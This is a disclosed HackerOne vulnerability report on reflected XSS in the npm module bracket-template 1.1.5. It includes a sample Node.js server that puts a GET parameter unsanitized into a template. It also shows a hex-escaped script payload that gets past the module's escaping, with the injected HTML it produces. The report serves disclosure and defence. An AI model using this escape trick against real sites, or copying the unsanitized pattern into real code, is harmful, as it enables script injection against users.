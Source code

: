 # [bracket-template] Reflected XSS possible when variable passed via GET parameter is used in template

## Report Details
- **Report ID**: 317125
- **URL**: https://hackerone.com/reports/317125
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-17T14:19:09.371Z
- **Disclosed**: 2018-04-09T14:58:19.748Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

I would like to report Reflected XSS in bracket-template module.
It allows to inject arbitrary JavaScript tag and malicious code to execute when variables read from GET are used directly in template without sanitization.

## Module

**module name:** bracket-template
**version:** 1.1.5
**npm page:** https://www.npmjs.com/package/bracket-template

### Description

Minimal (über fast) Javascript engine compatible with node.js and browsers.

### Module Stats

Stats:

51 downloads in the last day
209 downloads in the last week
835 downloads in the last month

~10000 estimated downloads per year

## Description

While testing ```bracket-template``` module, I've found that there is possibility to inject malicious ```<script>``` tag followed by JavaScript code when values passed via GET are used in templates directly, without any sanitization.

## Steps To Reproduce:

- install ```bracket-template``` module:

```
$ npm install bracket-template
```

- create sample aaplication, which reads ```name``` from url and displays welcome message in the browser:

```javascript
// app.js file
const http = require('http')
const bracket = require('bracket-template').default
const port = 8080

function createHTML(name) {
    let tpl = `
        [[ const n = '${name}'; ]]
        <strong>Hello [[= n ]]</strong>
    `
    return bracket.compile(tpl)
}

const requestHandler = (request, response) => {
    const name = request.url.split('=')[1]
    response.writeHeader(200, { "Content-Type": "text/html" });
    response.write(createHTML(name)());
    response.end();
}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
    if (err) {
        return console.log(err)
    }
    console.log(`server is listening on ${port}`)
})
```

- run application:

```
$ node app.js
```

- open ```http://localhost:8080?name=bl4de``` in the browser. You will notice expected result:

{F264368}

- now, try to inject following malicious XSS payload: ```http://localhost:8080?name=bl4de<script>console.log('XSS?')</script>```. You will notice all HTML special characters were escaped:

{F264369}


- this time, use following payload: ```http://localhost:8080/?name=bl4de\x3cscript\x3econsole.log(\x22uh\x20oh,\x20XSS...\x20:(\x22)\x3c\x2fscript\x3e``` and see the result in browser dev tools console:


{F264370}


When we investigate HTML returned from the server, we can notice using ```\x[hex][hex]``` notation allows to inject any HTML special character and crafts XSS payload:

```HTML
<strong>Hello bl4de<script>console.log("uh oh, XSS... :(")</script></strong>
```

Also, I have noticed that this vector is not detected by built-in XSS protection (XSS Auditor) in Blink/WebKit based browsers (Chromium, Safari, Chrome, Opera), which causes additional risk for anyone who uses ```bracket-template``` in production application.


## Supporting Material/References:

This issue was found and tested with following setup:

- macOS HighSierra 10.13.3
- Node.js v.8.9.3
- npm v. 5.5.1
- Chromium 66.0.3342.0, Safari 11.03 (with XSS Auditor enabled), Chrome 64.0.3282.167 (with XSS Auditor enabled)

## Wrap up

- I contacted the maintainer to let him know: No
- I opened an issue in the related repository: No

Regards,

Rafal 'bl4de' Janicki

## Impact

This issue can be used by malicious user to exploit Reflected XSS against application  which outputs variables passed via GET parameters directly in template(s) without any sanitization.

## Attachments
- 1.png
- 2.png
- 3.png
